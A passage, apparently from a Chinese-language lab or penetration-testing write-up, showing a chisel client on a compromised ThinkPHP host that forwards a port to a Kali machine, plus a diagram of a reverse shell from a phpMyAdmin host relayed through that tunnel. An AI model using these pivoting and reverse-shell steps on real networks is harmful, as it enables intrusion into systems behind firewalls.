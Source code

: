 ![img](img/image_20240741-134137.png)

首先，在 `Thinkphp` 主机上建立内网 -> 外网的端口转发

```shell title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 8888:0.0.0.0:8888
[2] 2075
2024/07/25 05:42:33 client: Connecting to ws://192.168.200.129:1331
2024/07/25 05:42:33 client: tun: proxy#8888=>0.0.0.0:8888: Listening
2024/07/25 05:42:33 client: Connected (Latency 1.35978ms)
```

然后执行反弹 shell（反弹到 Thinkphp - 10.85.101.3）

- phpMyAdmin(10.85.101.4) --Reverse Shell--> Thinkphp(10.85.101.3 & 192.168.100.2):8888
- Thinkphp(10.85.101.3 & 192.168.100.2):8888 --Port Forawrd--> Kali(192.168.200.129):8888
